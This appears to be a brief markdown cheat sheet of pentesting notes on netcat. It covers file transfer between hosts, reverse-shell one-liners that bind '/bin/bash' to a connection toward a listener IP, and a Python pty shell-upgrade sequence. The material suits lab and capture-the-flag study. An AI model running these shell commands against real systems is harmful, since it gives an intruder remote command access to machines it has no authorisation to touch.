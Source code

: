 ### sending files
Listener:
`nc -lvp 4444 > incomig.txt` nc is a symlink of netcat  
TARGET HIGH PORTS  
Common users usually don't have access to ports under 1000  
`-l` - listening (opens port 4444 and pipe input into incoming.txt).  
`v` verbose `p` port 

Sender: 
`nc -nv 10.0.2.5 4444 < exploit.sh`  
`n` no DNS resolution  


### reverse shell 
Listener:
`nc -lvp 4444`

Target:  
`netcat 10.0.2.4 4444 -e /bin/bash` or `nc -c bash 10.0.0.1 4444`  
`-e` execute that program after connection -> that way you can send commends directly to opened shell via TCP connection (also possible with UDP `ncat --udp 10.0.0.1 4242 -e /bin/bash`)

Python tty (teletypewriter) wrapper:  
```bash
python-c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  
CTRL+Z  
stty raw -echo; fg  
```

